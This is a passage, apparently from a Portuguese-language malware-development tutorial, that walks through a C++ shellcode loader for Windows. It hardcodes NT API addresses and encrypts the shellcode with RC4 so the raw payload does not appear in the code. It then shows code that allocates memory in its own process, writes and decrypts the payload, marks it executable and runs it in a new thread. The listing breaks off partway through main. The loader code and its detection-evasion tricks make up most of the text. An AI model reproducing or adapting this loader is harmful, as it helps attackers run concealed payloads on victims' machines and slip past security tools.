 Depois definimos os endereços das APIs como constantes:

```cpp

constexpr uintptr_t addr_NtOpenProcess = 0x00007FFC4962DA10;
// Definições semelhantes para outras APIs...
}
```

Depois os endereços serão convertidos para ponteiros de função.

```cpp
NtOpenProcess_t NtOpenProcess = reinterpret_cast<NtOpenProcess_t>(addr_NtOpenProcess);
// Conversões semelhantes para outras APIs...

```

Então para não fornecer o shellcode puro no código criptografamos a nossa shellcode com RC4 usamos a boa e velha Função de Decriptação RC4:

```cpp
BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
    NTSTATUS STATUS;
    USTRING Key = { dwRc4KeySize, dwRc4KeySize, reinterpret_cast<PWSTR>(pRc4Key) };
    USTRING Img = { sPayloadSize, sPayloadSize, reinterpret_cast<PWSTR>(pPayloadData) };
    char a_dll_name[] = "Advapi32.dll";
    char NotSysFunc32[] = "SystemFunction032";
    fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA(a_dll_name), NotSysFunc32);

    STATUS = SystemFunction032(&Img, &Key);
    if (STATUS != 0x0) {
        return FALSE;
    }
    return TRUE;
}
```

E a nossa função `main` faz o classico ela Abre o processo atual usando `NtOpenProcess`, Aloca memória no processo com `NtAllocateVirtualMemory`, Escreve o shellcode criptografado na memória alocada com `NtWriteVirtualMemory` e descriptografa usando o `RC4DEC`, Então protege a memória para execução com `NtProtectVirtualMemory`, Cria um thread para executar o shellcode usando `NtCreateThreadEx`, Espera pelo término do thread com `NtWaitForSingleObject`, Libera a memória alocada com `NtFreeVirtualMemory`, Fecha o handle do processo com `NtClose`.

```cpp
int main() {
    HANDLE processHandle;
    CLIENT_ID clientId;
    clientId.UniqueProcess = reinterpret_cast<HANDLE>(GetCurrentProcessId());
    clientId.UniqueThread = 0;

    OBJECT_ATTRIBUTES objAttr;
    InitializeObjectAttributes(&objAttr, NULL, 0, NULL, NULL);

    NTSTATUS status = NtOpenProcess(&processHandle, PROCESS_ALL_ACCESS, &objAttr, &clientId);
    if (status != 0) {
        std::cerr << "NtOpenProcess failed: " << std::hex << status << std::endl;
        return 1;
    }

    PVOID baseAddress = NULL;
    SIZE_T regionSize = 1;
    status = NtAllocateVirtualMemory(processHandle, &baseAddress, 0, &regionSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed: " << std::hex << status << std::endl;
```